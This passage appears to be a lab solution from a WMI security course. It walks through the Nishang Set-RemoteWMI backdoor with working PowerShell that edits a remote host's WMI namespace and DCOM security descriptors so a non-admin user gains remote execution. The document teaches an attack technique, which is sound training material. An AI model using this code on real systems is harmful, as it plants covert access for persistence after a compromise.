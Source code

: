 ## Hands On 10: Security Descriptors

#### Use EvilNetConnection provider discussed earlier and modify Security Descriptor of its namespace to achieve command execution using a non-admin user
This solution walks through the Set-RemoteWMI script to better understand how it works and the commands being used to modify the security descriptors

- [EvilNetConnectionWMIProvider](https://github.com/jaredcatkinson/EvilNetConnectionWMIProvider)
- [Set-RemoteWMI](https://raw.githubusercontent.com/samratashok/nishang/master/Backdoors/Set-RemoteWMI.ps1)

##### user3 is an administrator on Win7x64 host.  Want to allow user2 execution privilege for everything under root\cimv2 namepsace on Win7x64
```
$SID = (New-Object System.Security.Principal.NTAccount("home.local\user2")).Translate([System.Security.Principal.SecurityIdentifier]).value
```

##### Create ACL to allow user2 execution privilege for everything under root\cimv2 namespace
```
$SDDL = "A;CI;CCDCLCSWRPWPRCWD;;;$SID"
$DCOMSDDL = "A;;CCDCLCSWRP;;;$SID"
```

##### Collect information from remote machine
```
$RegProvider = Get-WmiObject -Namespace root\default -Class StdRegProv -List -ComputerName win7x64 -Credential home.local\user3
$Security = Get-WmiObject -Namespace root\cimv2 -Class __SystemSecurity -List -ComputerName win7x64 -Credential home.local\user3
$Converter = Get-WmiObject -Namespace root\cimv2 -Class Win32_SecurityDescriptorHelper -List -ComputerName win7x64 -Credential home.local\user3
```

##### Create new SDDL for WMI namespace and DCOM.  Allow user2 remote execution 
```
$DCOM = $RegProvider.GetBinaryValue(2147483650,"Software\Microsoft\Ole","MachineLaunchRestriction").uValue
$binarySD = @($null)
$result = $Security.PSBase.InvokeMethod("GetSD",$binarySD)
$outsddl = $converter.BinarySDToSDDL($binarySD[0])
$outDCOMSDDL = $converter.BinarySDToSDDL($DCOM)
$newSDDL = $outsddl.SDDL += "(" + $SDDL + ")"
$newDCOMSDDL = $outDCOMSDDL.SDDL += "(" + $DCOMSDDL + ")"
$WMIbinarySD = $converter.SDDLToBinarySD($newSDDL)
$WMIconvertedPermissions = ,$WMIbinarySD.BinarySD
$DCOMbinarySD = $converter.SDDLToBinarySD($newDCOMSDDL)
$DCOMconvertedPermissions = ,$DCOMbinarySD.BinarySD
$result = $Security.PsBase.InvokeMethod("SetSD",$WMIconvertedPermissions)
$result = $RegProvider.SetBinaryValue(2147483650,"Software\Microsoft\Ole","MachineLaunchRestriction", $DCOMbinarySD.binarySD)
```

##### user2 should not have execution privileges for nampesaces under root\cimv2 namepsace on remote host Win7x64
```
Get-WMIObject Win32_NetConnection -Computer Win7x64 -Credential home.local\user2
```
